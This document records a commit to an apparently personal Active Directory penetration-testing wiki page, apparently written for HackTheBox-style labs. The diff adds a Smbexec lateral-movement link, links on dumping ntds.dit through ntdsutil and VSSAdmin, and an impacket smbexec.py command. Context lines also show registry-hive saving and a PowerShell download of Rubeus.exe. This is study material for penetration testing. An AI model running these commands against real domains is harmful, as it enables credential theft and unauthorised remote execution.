

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 1400 px high, scrolled down 10031 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded.

Commit message:
Update 003-active-directory-penetration-testing.md

````diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -274,6 +274,9 @@ reg save hklm\system c:\temp\system.bak (System Hive keys)
 
 # Lateral Movement
 
+## Smbexec
+**[Smbexec](https://book.hacktricks.xyz/windows-hardening/lateral-movement/smbexec)**
+
 ## WinRM
 **[Evil-WinRM - ultimate WinRM shell for hacking/pentesting](https://github.com/Hackplayers/evil-winrm)**
 
@@ -380,6 +383,14 @@ powershell -Command "Invoke-WebRequest -Uri 'http://192.168.110.51:1235/Rubeus.e
 
 -----------------------------------------------------------------------
 
+# Exfiltration (Domain Controller)
+
+## Extraction of ntds.dit
+**[ntdsutil](https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds#a-d-maintenance-ntdsutil)**
+**[VSSAdmin](https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds#volume-shadow-copy-vssadmin)**
+
+-----------------------------------------------------------------------
+
 # Active Directory Tools
 **[NetExec](https://github.com/Pennyw0rth/NetExec)**
 ```
@@ -416,6 +427,8 @@ python3 -m pipx install impacket
 smbclient.py -k -no-pass PAINTERS.HTB/Administrator@dc.painters.htb -debug
 wmiexec.py -k -no-pass PAINTERS.HTB/Administrator@dc.painters.htb
 psexec.py -k -no-pass Administrator@dc.painters.htb -dc-ip 192.168.110.55 -debug (sometimes don't need the domain)
+smbexec.py administrator@dc.painters.htb -k -no-pass -debug
+  - [smbexec](https://book.hacktricks.xyz/windows-hardening/lateral-movement/smbexec)
 ```
 
 **[Rubeus for Windows](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)**
````
